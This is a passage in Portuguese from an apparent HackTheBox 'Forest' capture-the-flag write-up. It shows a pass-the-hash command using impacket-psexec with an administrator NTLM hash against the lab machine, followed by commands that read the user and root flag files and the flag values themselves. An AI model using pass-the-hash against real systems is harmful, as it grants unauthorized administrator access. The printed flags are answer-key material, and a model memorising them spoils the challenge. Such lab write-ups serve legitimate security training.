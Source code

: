 Faremos um ataque PTH com PsExec:

`impacket-psexec [administrator@10.10.10.161](mailto:administrator@10.10.10.161) -hashes :32693b11e6aa90eb43d32c72a07ceea6`

![Untitled](../assets/img/HTB/HTB-Forest/Untitled%203.png)

# HABEMUS ROOT!!!

---

# Pegando a FLAG

`type C:\Users\svc-alfresco\Desktop\user.txt`

***8e0dc27733441c9e2ea809f3fd54c3f6***

`type C:\Users\Administrator\Desktop\root.txt`

***23157b04ca6de51181cce1533a572315***